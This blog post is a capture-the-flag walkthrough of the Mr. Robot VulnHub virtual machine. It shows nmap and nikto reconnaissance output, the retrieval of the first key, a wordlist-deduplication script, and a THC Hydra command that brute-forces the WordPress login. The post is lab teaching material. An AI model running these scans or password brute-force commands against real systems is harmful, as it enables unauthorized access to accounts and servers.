 ```yaml
---
layout: post
author: trent
title: Hacking f_society.
---
```


# Introduction
Mr. Robot is a show on AMC about a disturbed hacker attempting to thwart an omni-present
oligarchy while at the same time trying to suppress a dark alter-ego modeled after his
own father.

Notably, the show tries to portray "hacking" realistically (inasmuch as it can without entire episodes
dedicated to watching Elliot pore over the documentation of a specific vulnerable version
of httpd running on Windows Server 2000), and I appreciate it. Well, mostly.

With that in mind, let's break a Mr. Robot themed VM together, and maybe learn something
about webapp security along the way.

Download the .ova from [vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/), pop it
in your favorite virtualization software (hard to go wrong with VirtualBox), and boot it up.
The Mr. Robot VM grabs a DHCP lease on boot, and I'd recommend running it and your offense
box on the same virtual subnet.

# Recon / Scanning
First, let's scan the subnet to find Mr. Robot's VM.

```shell
root@bento:~# nmap -A 10.0.2.0/24
Starting Nmap 7.01 ( https://nmap.org ) at 2016-08-03 23:48 PDT

Nmap scan report for 10.0.2.5
Host is up (0.00052s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:6C:39:39 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.19
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms 10.0.2.5
```


From the scan, we can see the VM is probably serving some sort of web-service.
Before we investigate this further, however, let's run some more scans and see
if we can dig up anything else.

```shell
root@bento:~# nikto -host 10.0.2.5
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.0.2.5
+ Target Hostname:    10.0.2.5
+ Target Port:        80
---------------------------------------------------------------------------
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
```

Our nikto scan turns up a bunch of interesting directories, including what looks like
an admin portal for a WordPress site. Definitely worth checking out.

Navigating to the VMs IP in Firefox yields the following page:

![]({{ site.baseurl }}/assets/img/mr_robot.webm)

None of the commands are all that interesting. What is interesting,
however, is the site's robots.txt file:

![]({{ site.baseurl }}/assets/img/robots.png)

Looks like we've got our first key.

```shell
root@bento~# wget http://10.0.2.10/key-1-of-3.txt
--2016-08-06 18:43:14--  http://10.0.2.10/key-1-of-3.txt
Connecting to 10.0.2.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 33 [text/plain]
Saving to: ‘key-1-of-3.txt’

key-1-of-3.txt      100%[===================>]      33  --.-KB/s    in 0s      

2016-08-06 18:43:14 (7.39 MB/s) - ‘key-1-of-3.txt’ saved [33/33]

root@bento~# cat key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```

That's a pretty easy win in my book. I'll take it. Save the .dic file for
later, there's no telling how it will come in handy but I doubt they let
us have it for nothing.

Time to revisit the nikto scan and see if we can turn up anything from the
WordPress directories. Let's start with the login page, /wp-login.php.

# Gaining Access

Poking at the login page with a few default credentials doesn't really reveal
anything interesting. Routing the request/response traffic through Burp also
comes up short. Going back to the .dic file we downloaded earlier, it's pretty
clearly some kind of wordlist. There are many duplicate words in there, however,
so I hacked together a Python script to remove them:

```python
with open('fsocity.dic') as infile: dic = infile.readlines()
dic = set(dic)
fsocity = open('fsocity_sorted.dic', 'w')
for i in dic: fsocity.write("%s" % i)
```

Now, using the sorted wordlist and the username 'Elliot' (the most commonly occurring
username in the .dic file) we can attempt to crack the WordPress login. I'll be
using THC Hydra to do my web cracking, which means to properly format our Hydra
commands we'll need to get the login request parameters. I'll use Burp Suite for
this task. If you're not familiar with Burp, read up on its basic usage [here](https://portswigger.net/burp/help/)
before trying this. In essence, we proxy our web browser through the localhost on
port 8080 (the default for Burp), then attempt a login. Burp will intercept the
request/response traffic, and allow us to see the login form's internals. What we're
really looking for is the method (usually POST), the form parameters, and the failure
response. With all of this information assembled, we can construct our hydra command:

```shell
root@bento~# hydra 10.0.2.10 http-form-post "/wp-login.php:user_login=^USER^&user_pass=^PASS^:lostpassword" -l Elliot -P fsocity_sorted.dic -t 10
```

From Burp, we have 'user_login' and 'user_pass' as the form params, and 'lostpassword'
as the failure message.

-TC

